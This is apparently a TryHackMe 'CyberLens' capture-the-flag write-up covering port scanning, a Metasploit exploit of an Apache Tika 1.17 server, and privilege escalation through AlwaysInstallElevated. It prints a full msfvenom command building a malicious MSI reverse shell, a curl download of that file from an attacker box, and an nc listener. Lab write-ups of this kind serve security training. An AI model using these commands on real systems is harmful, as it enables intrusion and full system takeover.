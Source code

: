 Platform: TryHackMe\
Room: CyberLens\
URL: https://tryhackme.com/r/room/cyberlensp6 \
Date: June 5, 2024

# Notes
10:21 am
Loaded target machine
IP 10.10.234.94

added cyberlens.thm to hosts file (mentioned in the room description)\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/dc1950a7-8a20-4dab-9752-f0bb18e66d02)

Fast NMAP scan of target. `nmap -F cyberlens.thm`\
Found ports 80,135,139,445,3389

rustscan of target. `rustscan -a 10.10.234.94\
Found ports 80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777

Running nmap service scan of all open ports `nmap -sV -p80,135,139,3389,445,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671,61777 cyberlens.thm`
OUTPUT:
```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
```
Found HTTP servers on ports 80,5985,47001,61777

Opened firefox browser and burpsuite, proxying traffic

Navigated to http://cyberlens.thm

Identified file upload location\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7563d775-8fcf-4127-8504-b32fd9ccb44c)

clicked "browse" and selected a benign JPG. Clicked "GET Metadata"

Proxy shows a request made to `cyberlens.thm:61777/meta`

Navigated to https://cyberlens.thm:61777. It is running `Apache Tika 1.17 Server`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9f653a6f-1c26-4b83-bae5-008279feb550)

Searched exploit-db for "Apache Tika 1.17, and found a metasploit exploit that seems compatible. (https://www.exploit-db.com/exploits/47208)

started msfconsole and searched for apache tika, and found the exploit module.

used module, and using default payload "windows/meterpreter/reverse_tcp"

set RHOSTS cyberlens.thm\
set RPORT 61777\
exploit

Exploit succeeded, established meterpreter shell\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/0013ced4-53ce-40f4-b7a8-db7ea20e3059)

`shell` opened shell. `powershell` opened powershell shell

Navigated to C:\Users. Found 2 users, Administrator and CyberLens

Navigated to C:\Users\CyberLens\Desktop and found a file named "user.txt"

10:48 am
Obtained first flag\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/8c3cebbe-b8a0-4232-8f92-bfc673e59686)

Navigated to C:\Users\CyberLens\Documents\Management and found file `CyberLens-Management.txt`

File appears to contain credentials:\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/6da3b7e0-1e1f-4a9c-a498-be60ac00cad9)

CyberLens
HackSmarter123

Checked MSI policies and found "AlwaysInstallElevated is enabled, and MSI is Not Disabled\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/7546a965-1d72-4e50-a44b-ef550b9119e6)

Created malicious msi file with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.205.247 LPORT=4445 -f msi -o malicious.msi`. set listening port to 4445 (to not interfere with open meterpreter shell on port 4444)

started python http server on attacker box `python3 -m http.server` in the same folder as the malicious.msi file

Used curl on victim box to curl the maliciuos.msi file from attacker box `curl http://10.10.205.247:8000/malicious.msi -o malicious.msi`\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9cc345fb-54af-47e3-90b7-6503e04d7ad0)

Started nc listener on port 4445 `nc -nlvp 4445` on attacker box

Executed msi file on victim box `./malicious.msi`

Received shell as nt authority\system\ (got root)\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/b3a81216-fa79-4d20-a58b-37290fbd9b37)

Navigated to C:\Users\Administrator\Desktop. Found admin.txt file

11:05 am
Obtained root flag from admin.txt file\
![image](https://github.com/mitch-n/redteam_writeups/assets/30005736/9e61b498-eaea-43b9-8fef-07c6872d0f6b)

Closed all open channels to victim box
Room Complete.



